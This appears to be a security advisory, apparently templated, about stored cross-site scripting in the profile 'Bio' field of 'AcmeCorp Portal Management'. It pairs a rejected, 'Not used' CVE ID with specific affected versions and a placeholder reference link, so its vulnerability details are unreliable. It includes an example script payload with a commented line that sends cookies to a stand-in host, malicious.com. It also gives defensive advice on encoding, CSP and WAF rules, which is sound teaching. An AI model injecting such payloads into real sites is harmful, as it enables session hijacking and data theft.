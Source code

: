 # Urgent Security Alert: Potential Cross-Site Scripting (XSS) in AcmeCorp Portal Management (CVE-2025-54826)

### A Critical Reminder on Input Validation

Today, we're bringing attention to a potential security vulnerability identified in the **AcmeCorp Portal Management** application. While the associated CVE ID, **CVE-2025-54826**, has been marked as "Rejected" with the reason "Not used," the underlying class of vulnerability serves as a vital reminder for all organizations about the importance of robust security practices. Understanding such issues, even if not widely exploited or present in production, is key to proactive defense and preventing future compromises, which could lead to data breaches, system defacement, or unauthorized access.

---

### Vulnerability Details

*   **CVE ID:** **`CVE-2025-54826`** (Note: This CVE ID was issued but subsequently rejected with the reason "Not used." Organizations should still review their systems for similar weaknesses.)
*   **Affected Software:** **AcmeCorp Portal Management**
*   **Affected Component:** User Profile Management – specifically, the "Bio" or "About Me" text field in the User Dashboard Widget.
*   **Affected Version Numbers:** Versions **3.0.0** through **3.2.1**
*   **Technical Cause:** The vulnerability stems from insufficient input validation and output encoding in the user profile "Bio" field. An attacker could inject malicious client-side script into this field. When another user views the compromised profile or a page displaying this field (e.g., an administrator viewing user details), the malicious script would execute in their browser.

*   **Example Payload:**
    A malicious user could submit a "Bio" containing:
    ```html
    <script>
      // Malicious JavaScript payload
      // Example: Steal cookies, redirect users, or deface the page
      alert('XSS by CVE-2025-54826 triggered!');
      // document.location='http://malicious.com/log?c='+document.cookie;
    </script>
    ```

---

### Risk Description

If a vulnerability of this nature were to be exploited (even if **CVE-2025-54826** itself was "Not used"), it could lead to severe consequences, including:

*   **Session Hijacking:** An attacker could steal session cookies of authenticated users, allowing them to impersonate victims and gain unauthorized access to their accounts.
*   **Website Defacement:** Malicious scripts could alter the appearance of web pages, damaging brand reputation.
*   **Data Theft:** Confidential user data displayed on the page, or accessible through the user's browser, could be exfiltrated.
*   **Malware Distribution:** Victims could be redirected to malicious websites or tricked into downloading malware.
*   **Unauthorized Actions:** An attacker could perform actions on behalf of the victim (e.g., change passwords, make purchases), leading to financial loss or further compromise.

---

### Who is at Risk?

Organizations utilizing **AcmeCorp Portal Management** versions **3.0.0 through 3.2.1** are potentially at risk if similar vulnerabilities are present in their deployed environments. This includes businesses using the platform for:

*   Employee portals
*   Customer relationship management (CRM) systems
*   Internal dashboards
*   Any web application that allows users to input and display unvalidated content.

---

### Recommendations

Even with the "Rejected" status of **CVE-2025-54826**, this serves as a critical security reminder. We strongly recommend the following actions:

#### For Developers:

*   **Implement Strict Input Validation:** All user-supplied input, especially for text fields that will be displayed, must be rigorously validated on the server-side to ensure it conforms to expected formats and content types.
*   **Employ Output Encoding:** Crucially, always apply proper context-aware output encoding for any user-supplied data before rendering it in HTML. This neutralizes active content, preventing script execution. Use functions like `htmlspecialchars()` or equivalent library methods.
*   **Content Security Policy (CSP):** Implement a robust Content Security Policy header to restrict which sources are allowed to load scripts, styles, and other resources, significantly mitigating XSS attacks even if an injection occurs.
*   **Security Code Reviews:** Conduct regular security reviews of your codebase, focusing on input handling and data rendering.

#### For Website Owners/Administrators:

*   **Update Software:** While a direct patch for **CVE-2025-54826** might not be issued due to its status, ensure your **AcmeCorp Portal Management** installation is updated to the latest available version. Newer versions typically include cumulative security fixes for various issues.
*   **Monitor for Anomalies:** Implement logging and monitoring for suspicious activity, such as unusual requests or error patterns that might indicate attempted exploitation.
*   **Web Application Firewall (WAF):** Deploy a WAF to provide an additional layer of defense. Configure WAF rules to detect and block common XSS attack patterns targeting input fields.
*   **Educate Users:** Remind users about the dangers of clicking suspicious links or providing credentials on unverified websites.

---

### Reference Link

For general information on Cross-Site Scripting (XSS) and defensive measures, please refer to reputable security advisories and best practices: [Reference Link](#)